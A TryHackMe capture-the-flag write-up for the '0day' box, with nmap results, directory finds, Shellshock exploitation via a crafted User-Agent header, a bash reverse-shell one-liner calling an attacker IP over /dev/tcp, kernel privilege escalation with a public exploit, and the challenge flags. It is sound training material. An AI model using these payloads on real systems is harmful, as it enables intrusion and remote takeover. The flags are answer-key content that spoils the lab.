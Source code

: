 TryHackMe.com

Box = 0day

export IP=10.10.105.5

# NMAP SCANS

```
Starting Nmap 7.60 ( https://nmap.org ) at 2021-01-11 13:36 GMT
Nmap scan report for ip-10-10-105-5.eu-west-1.compute.internal (10.10.105.5)
Host is up (0.00043s latency).
Not shown: 998 closed ports
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 6.6.1p1 Ubuntu 2ubuntu2.13 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   1024 57:20:82:3c:62:aa:8f:42:23:c0:b8:93:99:6f:49:9c (DSA)
|   2048 4c:40:db:32:64:0d:11:0c:ef:4f:b8:5b:73:9b:c7:6b (RSA)
|   256 f7:6f:78:d5:83:52:a6:4d:da:21:3c:55:47:b7:2d:6d (ECDSA)
|_  256 a5:b4:f0:84:b6:a7:8d:eb:0a:9d:3e:74:37:33:65:16 (EdDSA)
80/tcp open  http    Apache httpd 2.4.7 ((Ubuntu))
|_http-server-header: Apache/2.4.7 (Ubuntu)
|_http-title: 0day
MAC Address: 02:4C:3C:34:AA:CD (Unknown)
No exact OS matches for host (If you know what OS is running on it, see https://nmap.org/submit/ ).
TCP/IP fingerprint:
OS:SCAN(V=7.60%E=4%D=1/11%OT=22%CT=1%CU=30841%PV=Y%DS=1%DC=D%G=Y%M=024C3C%T
OS:M=5FFC546A%P=x86_64-pc-linux-gnu)SEQ(SP=109%GCD=1%ISR=10C%TI=Z%CI=I%TS=8
OS:)SEQ(SP=109%GCD=1%ISR=10C%TI=Z%CI=RD%II=I%TS=8)OPS(O1=M2301ST11NW7%O2=M2
OS:301ST11NW7%O3=M2301NNT11NW7%O4=M2301ST11NW7%O5=M2301ST11NW7%O6=M2301ST11
OS:)WIN(W1=68DF%W2=68DF%W3=68DF%W4=68DF%W5=68DF%W6=68DF)ECN(R=Y%DF=Y%T=40%W
OS:=6903%O=M2301NNSNW7%CC=Y%Q=)T1(R=Y%DF=Y%T=40%S=O%A=S+%F=AS%RD=0%Q=)T2(R=
OS:N)T3(R=N)T4(R=Y%DF=Y%T=40%W=0%S=A%A=Z%F=R%O=%RD=0%Q=)T5(R=Y%DF=Y%T=40%W=
OS:0%S=Z%A=S+%F=AR%O=%RD=0%Q=)T6(R=Y%DF=Y%T=40%W=0%S=A%A=Z%F=R%O=%RD=0%Q=)T
OS:7(R=Y%DF=Y%T=40%W=0%S=Z%A=S+%F=AR%O=%RD=0%Q=)U1(R=Y%DF=N%T=40%IPL=164%UN
OS:=0%RIPL=G%RID=G%RIPCK=G%RUCK=G%RUD=G)IE(R=Y%DFI=N%T=40%CD=S)

Network Distance: 1 hop
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

TRACEROUTE
HOP RTT     ADDRESS
1   0.43 ms ip-10-10-105-5.eu-west-1.compute.internal (10.10.105.5)

OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 23.25 seconds

```
# INTERESTING FINDS

```
  using gobuster:
        - /secret shows an image of a cute turtle.
        - /robots.txt has a text: You really thought it'd be this easy?
        - /backup has an encrypted ssh private key.
        - /cgi-bin has forbidden access and test.cgi file in it.
  trying for shellshock vulnerability: (exploit-CVE-2014-6271)
        - command used: (curl -H "user-agent: () { :; }; echo; echo; /bin/sh -c 'cat /etc/passwd'" \
http://10.10.105.5/cgi-bin/test.cgi)
        - exploit above returned result by showing contents of /etc/passwd file.
        - got a reverse shell by using curl command:(curl -A "() { :; }; /bin/bash -i > /dev/tcp/10.10.48.30/9000 0<&1 2>&1" http://10.10.105.5/cgi-bin/test.cgi)
```

# TASKS

1. user.txt?

- THM{Sh3llSh0ck_r0ckz}


2. root.txt?

- THM{g00d_j0b_0day_is_Pleased}


# PRIVILEGE ESCALATION

Method used:

* uname -a (shows ubuntu version: 3.13.0 which is vulnerable to local privilege escalation)
* searchsploit Ubuntu 3.13.0
* copy 37292.c via wget in a directory that has write access for everyone
* compile the .c code using the command: (gcc [FILE_NAME] -o [OUTPUT_FILENAME])
* then make sure the PATH is set to:(export PATH=/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin)
* run the exploit (./[FILE_NAME])
* now you are root user! 